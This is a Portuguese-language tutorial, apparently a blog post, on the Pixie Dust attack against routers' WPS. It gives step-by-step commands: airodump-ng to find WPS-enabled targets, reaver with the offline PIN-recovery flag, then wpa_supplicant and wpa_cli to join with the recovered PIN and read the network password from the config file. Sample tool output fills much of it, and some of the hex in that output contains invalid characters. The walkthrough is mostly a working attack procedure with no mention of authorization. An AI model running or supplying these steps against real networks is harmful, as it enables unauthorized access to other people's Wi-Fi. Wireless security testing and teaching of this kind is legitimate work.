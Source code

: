```yaml
---
title: 'pixie-dust attack'
date: '2022-09-18'
description: 'Nesse artigo faço um pequena demonstração de como exlporar uma falha do protocolo WPS de roteadores'
---
```



## pegando psk com pixie-dust attack 


O pixie dust attack consiste em realizar a quebra do WPS de maneira offline.O método offline 
envolve tentar apenas um PIN aleatório e coletar algumas informações durante o processo. Esses 
dados podem ser usados posteriormente para tentar o ataque pixie-dust.
A vulnerabilidade está na mensagem M3: no corpo da mensagem é utilizado
duas chaves AES de 128 bits randômicas (E-S1 e E-S2) para encriptação da
primeira e da segunda metade do PIN, respectivamente. Se as duas chaves
forem descobertas, é possível recuperar o número PIN com um ataque offline
em menos de um segundo, em vez de “chutar” o número PIN no roteador, processo que pode levar de 8 a 12 horas (mais informações sobre o brute-force offline aqui [Hacklu2014_offline_bruteforce_attack_on_wps.pdf](http://archive.hack.lu/2014/Hacklu2014_offline_bruteforce_attack_on_wps.pdf)


## Parte pratica
##### Com a interface em modo monitor você pode "sniffar" as redes em volta para identificar um alvo em potêncial com o airodump-ng adicionando a flag --wps dessa forma:
```
$ sudo airodump-ng --wps <interface>

```
> Repare na coluna WPS 

```
 CH  9 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ]
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER  WPS  AUTH  ESSID
                                                                                                             
 00:09:5B:1C:AA:1D   11  16       10        0    0  11  54.  OPN          2.0           NETGEAR                         
 00:14:6C:7A:41:81   34 100       57       14    1   9  11e  WEP  WEP     1.0           bigbear 
 00:14:6C:7E:40:80   32 100      752       73    2   9  54   WPA  TKIP    2.0    PSK    teddy                             
                                                                                                            
 BSSID              STATION            PWR   Rate   Lost  Packets  Notes  Probes
                                
 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24    2       14
 (not associated)   00:14:A4:3F:8D:13   19    0-0     0        4           mossy 
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36    0        5
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54    0       99           teddy

```

##### Os APs com o WPS ativado apareceram nessa coluna com a versão do wps que o AP possui. Pode acontecer de alguns APs ficarem com um espaço vazio nessa coluna, isso é porque o wps está desativado.

##### Depois de ter identificado seu alvo, a ferramenta utilizada para fazer o ataque ao WPS será a Reaver (link no final da pg) com o seguinte comando:
  
```
sudo reaver -i <interface> -c <channel> -b <mac do ap> -vv -K 1
(precisa da flag -vv)
```
##### O resultado pode variar um pouco porque depende muito do roteador que está sendo atacado. Essa falha é relativa ao firmware do roteador, não sendo todos os roteadores vulneráveis. Você pode ver alguns exemplos de saida aqui -> https://forums.kali.org/showthread.php?25123-Reaver-modfication-for-Pixie-Dust-Attack ou pesquisar por conta própria e ver vários resultados diferentes que as pessoas conseguem por ai ... mas saída que deu certo pra mim foi semelhante a essa:

```
$ sudo reaver -i <interface> -c <channel> -b 01:D0:30:4A:49:45 -vv -K 1

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Switching wlan0 to channel 2
[+] Waiting for beacon from 01:D0:30:4A:49:45
[+] Received beacon from 01:D0:30:4A:49:45
[+] Vendor: RalinkTe
[+] Trying pin "12345670"
[+] Sending authentication request
[!] Found packet with bad FCS, skipping...
[+] Sending association request
[+] Associated with 01:D0:30:4A:49:45 (ESSID: "nome qualquer")
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
executing pixiewps -e 
313ff74331338ed2d66cc580c997ee805df43626d3dfda23328688e110e5676b7aa9d36640956c1d5b712835a0b07a7ec2ac2363e44336232cf5c11517096bad3c95bc2db3f537c41cf0a80036e
5b680e3e1e130a9303c14f77abca481e4911f590148387c6dc2839e2820a028f9d9c0767d25216c01260c011259cbd30c846ada8da47e5dc9d3dbe99953d9f8ef547d42b3152f581e790aae608c
6b112aac298cb121a60b6ec8849f23497234685b05b53a632526765dbf12642ed0ee8213fb -s c6987c052c458512a2972cfacc923e4c61c9502723676b9493d1b783062ecg16 -z 
72e3a7f04f5eb1cdd4602fb15443099f82d56a02ccad15774ea873c84b4b1b0b -a 3c63e889ae1d26a4441e2f9fbf7b673ff4aee85889383d88dc3707253d155d6b -n 
db396a9e4066be20697a0e236d3aaef7 -r 
29722c42863986dd84a965db99fca766e49c04e58c70f3cc0526b1d6efa0798d3a8023d533f87ea70g6551e50274d40e6c19dd6b3842b496e8c5fc2efc62dd67dc0ad5276aa21321fb68a70bbe6
9d6d6f27e5fb61ff29411a35c9d8e7084d8920cba3656a628ed5e7559ce53804ed85ea840221a73e8fb277c1ff86be187fb4008608c1f086637b045078cfa4c5dfe797d10d866322331866a6cf8
1651af877ad5f074be7c94a5db570d9c467dbf6aa048b48e16bfe98a265657a764b4d09fa7a

 Pixiewps 1.4

 [?] Mode:     1 (RT/MT/CL)
 [*] Seed N1:  0x2e6f2d71
 [*] Seed ES1: 0x7f3d488f
 [*] Seed ES2: 0x4104ca5d
 [*] PSK1:     e7868366f236b343dc0777209b87a214
 [*] PSK2:     95a24c483176fadddc4469a305e893b2
 [*] ES1:      3dd1a7d64b65cbe1bd80ab4359css07e
 [*] ES2:      5502dec86e7ae960a247f6b8aa9c513d
 [+] WPS pin:  18630248   <==== PIN AQUI

 [*] Time taken: 0 s 294 ms
```
(você pode executar o comando "pixiewps" sugerido pela própria ferramenta, que trará o mesmo resultado do pin recuperado)

##### Dependendo do resultado do ataque, o reaver consegue recuperar apenas o PIN do WPS como mostrado acima. Nos meus testes foi esse resultado que consegui, então a idéia é essa: recuperar o PIN com o ataque offline pixie-dust, depois se conectar ao AP com o pin recuperado usando o procedimento abaixo, para então pegar o psk

1. ***Crie o arquivo wpa_supplicant.conf em /etc/ e nesse arquivo vai as seguintes linhas***:

> ctrl_interface=/var/run/wpa_supplicant
>  
> ctrl_interface_group=0
>  
> update_config=1
  

2. ***Inicie o wpa_supplicant, com o arquivo de configuração /etc/wpa_supplicant.conf***:
```  
$ wpa_supplicant -Dwext -iwlan0 -c /etc/wpa_supplicant.conf
```

  
3. ***Em outro terminal inicie o wpa_cli para realizar a conexão ao ponto de acesso por meio do número PIN***:
```  
$ wpa_cli wps_reg 74:EA:3A:E1:E8:66 02283470
                     <mac do ap>    <pin wps>
```
  
  
4. ***O wpa_supplicant fará a conexão ao ponto de acesso. No terminal em que o wpa_supplicant foi iniciado
é retornado uma mensagem de que a conexão foi bem-sucedida***:
```  
$ wpa_supplicant -Dwext -iwlan0 -c /etc/wpa_supplicant.conf
ioctl[SIOCSIWENCODEEXT]: Invalid argument
ioctl[SIOCSIWENCODEEXT]: Invalid argument
wlan0: Failed to initiate AP scan
wlan0: Trying to associate with 74:ea:3a:e1:e8:66 (SSID='TP-LINK_E1E866' freq=2462 MHz)
wlan0: Associated with 74:ea:3a:e1:e8:66
wlan0: WPA: Key negotiation completed with 74:ea:3a:e1:e8:66 [PTK=CCMP GTK=CCMP]
wlan0: CTRL-EVENT-CONNECTED - Connection to 74:ea:3a:e1:e8:66
completed (auth) [id=1 id_str=]
```
  
  
5. ***Visualize o conteúdo do arquivo /etc/wpa_supplicant.conf com a senha
wireless da rede***:
```
$ cat /etc/wpa_supplicant.conf
network={
ssid="TP-LINK_E1E866"
bssid=74:ea:3a:e1:e8:66
psk="senha123"
proto=RSN
key_mgmt=WPA-PSK
pairwise=CCMP
auth_alg=OPEN
}
```

referencia:
- https://novatec.com.br/livros/pentest-redes-sem-fio/
- https://en.wikipedia.org/wiki/Wi-Fi_Protected_Access#WPS_PIN_recovery
- https://en.wikipedia.org/wiki/Wi-Fi_Protected_Setup
- https://github.com/wiire-a/pixiewps
- https://github.com/t6x/reaver-wps-fork-t6x
- https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-(Offline-WPS-Attack)
